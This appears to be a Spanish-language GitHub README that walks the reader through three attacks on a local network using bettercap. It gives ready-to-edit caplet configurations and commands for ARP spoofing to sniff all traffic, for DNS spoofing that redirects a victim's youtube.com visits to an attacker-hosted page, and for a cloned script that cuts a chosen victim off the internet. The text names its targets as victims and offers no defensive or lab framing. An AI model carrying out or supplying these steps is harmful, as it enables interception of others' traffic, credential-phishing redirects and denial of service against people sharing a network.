 # 🥷​MIM-Spoofing
## 🕵️‍♂️Configuración para esnifar el tráfico de la red haciendo Spoofing
En primer lugar, instalaremos el paquete bettercap, esta es la herramienta que vamos a usar para realizar este ataque.
```sh
sudo apt install bettercap
```
Y clonaremos el repositorio
```sh
git clone https://github.com/Dv-AlejandroEH/MIM-Spoofing.git
```
Una vez tengamos estos dos requisitos podemos empezar con el ataque.
Tenemos que modificar el archivo spoof.cap para indicar la IP de la victima.
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets [192.168.0.*] --> Esta es la IP que hay que cambiar
arp.spoof on
set net.sniff.local true
net.sniff on
```
Ya podremos ejecutar el siguiente comando
```sh
bettercap -iface eth0 -caplet spoof.cap
```
En este punto ya estamos viendo todo el tráfico de la red local

## 🔄​Configuración para DNS-Spoofing
En primer lugar, debemos de descargar apache para montar nuestro propio servidor HTTP:
```sh
sudo apt install apache2
```
Una vez instalado agregamos un index.html al directorio /var/www/html, esta página será a la que redigiremos a la victima.
Ejecutaremos el siguiente comando para levantar el servidor web.
```sh
sudo systemctl start apache2
```
En el repositorio que hemos clonado anteriormente, se incluia un archivo llamado spoof-dns.cap, deberemos de modificarlo para añadir los targets, los nombres DNS que queremos suplantar y la dirección IP a la que queremos redirigir a la víctima.
```
set arp.spoof targets [192.168.0.10] --> IP de la victima
arp.spoof on
set dns.spoof.domains [youtube.com] --> Dominio el cual queremos suplantar
set dns.spoof.address [192.168.0.12] --> Dirección IP a la que será dirigida la víctima (puede ser nuestro servidor web u otra IP ya existente en internet)
dns.spoof on
```
Cuando hayamos modificado este archivo podremos ejecutar el siguiente comando.
```sh
sudo bettercap -iface eth0 -caplet spoof-dns.cap
```
La víctima ya estará siendo atacada, cuando acceda a la dirección que le hemos indicado será redirigida a nuestra página.

## ❌​Configuración para denegar internet a la victima mediante Spoofing
Para comenzar, clonaremos el siguiente repositorio.
```sh
git clone https://github.com/Maalfer/PinguExit.git
```
Una vez clonado ejecutaremos el comando.
```sh
sudo arp-scan -I eth0 --localnet
```
Ya podremos ejecutar el script de python que hemos clonado del repositotio
```sh
sudo python3 script.py
```
En la interfaz gráfica que nos ha aparecido introduciremos la IP a la que deseamos realizar el ataque y este se realizará automaticamente dejando a la víctima sin conexión a internet.
